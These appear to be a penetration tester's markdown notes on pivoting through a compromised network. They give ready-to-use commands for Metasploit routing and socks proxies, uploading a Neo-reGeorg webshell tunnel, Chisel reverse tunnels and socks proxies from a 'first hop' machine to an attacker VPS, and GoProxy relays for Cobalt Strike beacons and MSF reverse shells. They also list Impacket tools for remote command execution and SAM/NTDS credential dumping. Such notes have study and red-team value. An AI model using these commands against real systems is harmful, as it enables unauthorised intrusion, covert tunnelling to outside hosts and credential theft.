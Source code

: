 


## Intranet transverse

> [!conclusion] Tools Comparation
> - `neo-reGeorg`:  Proxifier - fail; Stability - bad
> - `msf`: Proxifier - success; Stability - bad
> - `frp`: Proxifier - success; Stability - good


After gain a MSF session, firstly gather network interface information using `ifconfig`, then ping scan the intranet IP section using `ping_sweep` post module. 
### Socks5 proxy using MSF
Add route to intranet IP section(e.g. `192.168.1.0/24`) by `autoroute` module and bound to the open session. 
Launch a socks proxy by `socks_proxy` module, add the proxy port into *proxychain*'s config. 
To apply proxy to nmap, one must use  `-sT` and `-Pn` option, to use fscan, one should use `-socks5` option of fscan and don't use proxychains instead.
### Socks5 proxy using Neo-reGeorg

> [!NOTE] reGeorg
> reGeorg builds socks5/4 tunnel by webshell, firstly generate a tailored webshell (e.g. tunnel.jsp), upload onto the target server, and run reGeorg script on VPS, which would control tunnel.jsp to create sockets in intranet and build a socks5 tunnel with VPS
> 

```
python3 neoreg.py generate -k O0O0 
# upload payload.jsp onto target xxx:8082
python3 neoreg.py -k O0O0 -p 8001 -u http://xxx:8082/404.jsp
# set socks5 proxy on 8001 port
```
### Port transversion using Chisel
> Denote my attack VPS as vps, the compromised machine as "first hop" and an intranet host as B. Chisel server will run on vps and chisel  client run on target machine.
#### Forward connection
Which means client use server as proxy.
On vps:
```
chisel server --authfile ./chisel_auth.json -p 8101
```
On first hop:
```
.\chisel.exe client --auth "<user:pass>" <vps-ip>:8101 9999:www.baidu.com:80
```
First hop would listen on port 9999 and transfer TCP traffic on port 9999 to chisel server which would transfer the traffic to "www.baidu.com:80" and reply client with response received.

> [!NOTE] 
> So in the forward connection scenario, the client option "\<local-host>:\<local-port>:\<remote-host>:\<remote-port>/\<protocol>" would be parsed as:
>  - **local-host/port** is in terms of the machine client runs on;
>   - **remote-host/port** stands for the destination which client wants chisel server to visit.
>   
> In forward connection scenario, the common action is that run server on the first hop and run client on vps

#### Reverse connection
Which will act as a reverse proxy.
On vps:
```
chisel server --authfile ./chisel_auth.json -p 8101 --reverse
```
On first hop:
```
.\chisel.exe client --auth "<user:pass>" <vps-ip>:8101 R:9999:localhost:8888
.\chisel.exe client --auth "<user:pass>" <vps-ip>:8101 R:9999:<B-ip>:80
```
Chisel server will open 9999 port to listen, first hop will transfer TCP traffic to its 8888 port or an intranet host.
> [!NOTE] 
> So in the reverse connection scenario, the client option "\<local-host>:\<local-port>:\<remote-host>:\<remote-port>/\<protocol>" would be parsed as:
>  - **local-host/port** is in terms of the port chisel server listens on.
>   - **remote-host/port** stands for the destination which expected to visit by chisel client.

#### Socks proxy
On vps:
```
chisel server --authfile ./chisel_auth.json -p 8101 --reverse
```
On first hop:
```
.\chisel.exe client --auth "<user:pass>" <vps-ip>:8101 R:9999:socks
```
VPS will open port 9999 as a socks5 proxy for the intranet first hop located in.

## Lateral Movement
### Expose intranet host, Connect CS Beacon
CS Beacon can configurate a http proxy.
Use `GoProxy` tool, set up a http proxy on edge host:
```
./proxy http -t tcp -p "0.0.0.0:8888"  --log proxy8888.log
```
set up beacon proxy to 8888 port of edge host with intranet address.
### Expose intranet host, MSF reverse connect
MSF reverse shell cannot use http proxy, so we should make a TCP tunnel on the first hop machine. By the command below, the machine will transfer TCP traffic on port 33080 towards your VPS port 8888, and then start a handler on 8888 port for the reverse connection.
```
./proxy tcp -p ":33080" -T tcp -P "<vps ip>:8888"
```


### Impacket
Get an semi-interactive shell, upload/download files: `smbclient.py`
Dump SAM of DIT file: `secretsdump.py`
Execute command: 
	- `psexec.py`
	- `wmiexec.py`: should run as administrator
Get OS architecture: `wmic os get osarchitecture` or `echo %PROCESSOR_ARCHITECTURE%`

